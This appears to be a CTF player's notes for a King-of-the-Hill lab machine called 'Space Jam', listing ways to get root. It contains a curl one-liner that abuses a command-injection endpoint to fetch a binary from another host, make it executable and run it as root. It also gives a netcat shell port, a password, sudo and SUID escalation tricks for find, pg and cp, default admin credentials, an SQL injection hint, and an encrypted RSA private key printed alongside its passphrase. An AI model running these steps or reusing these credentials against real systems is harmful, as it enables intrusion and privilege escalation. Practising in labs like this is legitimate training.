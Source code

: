 # Space Jam KOTH machine

## straight to root

- port 3000 hosts a website which takes a cmd querystring param, and runs it as root. each one shot win

  ```
  curl http://10.10.24.24:3000/?cmd=wget+10.10.159.16:1234/client+-O+/.dockerenv+%26%26+chmod+777+/.dockerenv+%26%26+/.dockerenv
  ```

## footholds

- a port which might be random, might be fixed at `61432`, can be connected to via `nc` and will execute commands as jordan
- bunny's password is `carrot123`

## paths to root

- jordan can run `/usr/bin/find` as root via sudo. 
- the postgres user can run `pg` via sudo. this can get to root via:
  ```
  sudo pg /etc/profile
  !/bin/sh
  ```
- `/bin/cp` has the suid bit set. can be used to create new suid binaries, via `/bin/cp --attributes-only --preserve=all /bin/cp "$LFILE"`

## other

- port 80 hosts a nothing website 
- 80/local/fantasticblog the fantasticblog software. can log in with default admin creds, admin:admin, and its vulnerable to sql injection too on id param. the db is running as root

## Flags

- /root/root.txt
- /home/jordan/user.txt
- /home/bunny/user.txt: same as above

## Jordan SSH Key (key: pass123)

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,DA697FD21BE4BCAD4386BD20D4CA9F61
x8ZQB5RrPbKhGqipEb/r76EbGLsqsCgz8rO60Mt/u6qbPPANO5vtKgqkH4WY1NYW
BW7HEgZhTYLHWJwe8/P2OASp2d0q/GhoOOJUw4bWPThuP3CxTZfizLDVjzn5G6dI
MBjpOLqho3BJcQXF2T9gPDjk/mG/OPcAuBofzyEaVh11xX5ILTKTiQHcFizkveD1
ivPlevQAx58HkZIcOsaK4d07cQKhaOiA7KcJ+J5qlE2UkJgB7C3j+qu38XR2Dtyq
Lyvh/RvsVB72iM8gmyMZHdPcdDEjTYSP38aY5Xm6qnqeZfYZNwezg07ObX/4JJ+B
/N0JgQ4hPmK3t5YbFtw844f23u4AkVvhnEmPyqNqTws3oSeqc40QnNCfXgiQs/XU
+7lCCvm8sD+vveWjqP0MPjVqbvn9+bPXCm7PB/yvNDlbZoBhGrde60p5rZSnYrq2
brbFm44nXgdSu2+3N86gNpAojR71DLfzI4a3fkgTa3DBi35g93Hn5jgxh8RN81Ng
e4/yZzoJokwFGkpo+Obikpys2HRjNmeSWeeuOhskzdQ3VGeJFk4zipDOEVD9D7Sn
wAvLh9uqhxw7OpdTLaM3u5KCoN/vGZ3eVJsR/7Bvkw88/IP9v/TtRvlVaGQbpy9q
r8PJNu9UIt6eeq9E96a7QmouGahc3FX8c1IxEynP7gGEYAeqpuTZdub7iQClA5W9
Vaj1jcDbeIj9qBHSwzcIVNiSMgo8sLyruWtdYnRLfwXqVyxgl+uNwho//Zr5Wrfj
w5Ah7jR+9HIwyDajwiD062nXz7rz2Df/ZVchBMNmX9a0EXYfHC3yqAo6kKtC04dF
bplIvd2HPOh3icK5DjbNQJrj9U69pxt1BxtJeMS1kAOb1BOCqsUF5Pvp863ABd2f
0OExqCo1ZYFQajUHqwAyAt2fUn3t91PUiQpc82zoI5hIahUyI8FHNzO5qTEsxlxt
NwWOufbCDaqSowsd/YyaKFpYs87SQeyQi30Qj5EMrChuMoY1a51dKmH+f6tQnfUw
Sw0WMV3kU27MGwyZa062Gphx8iDPCv4RsmUyE9IzJy0uRzxN1l5qLct1ShhTspt0
bfrr/zUJsiU6b9GZp2ExBVALhK5Dij3UeZQ+g8WEKJ/b6lbLfN+KVGGBa5YxFq0M
tuNDJmurhv6tg0gEk03yLTl08N/3wG9N4SkBEZisCP1M3xAJkUpOUX/Ip9MK0hSn
8Qsj6can2vOg3nBM0OlXW9PEwvrhQ5mcTBYtly74naL65NcpfzmKYa4EuiZBbgqr
ZToKCgAjr5PIwxR3qDDnmgF339WGWYwSi+f/mXPPZv92hs2cjlI1lBEC+57OCyN9
OvGwf1FNvyZo9S3fp9dnZng1I2pl5ykj8YwPhsNvAAmpqRV7ABjSUzDEzoJOovP4
kCrPEerOwcQlflWs0Q0HlZ3lb9eyjY1jLvY83l4WJOQdakm/NOtqMv4qtKtDG5pR
uT7lOmWTY+/UOM4oyyWkA4/Eo1hBdFieC8MDP1LZ/dwP5dNwJdf4dz4tPmsJ9T3x
ocT9XUxMJ5sBb41E4pvBWtKce7NrsJlbcgPKQHLWqfIzaM+zuuk0WtJxZeXnqJCG
-----END RSA PRIVATE KEY-----
```

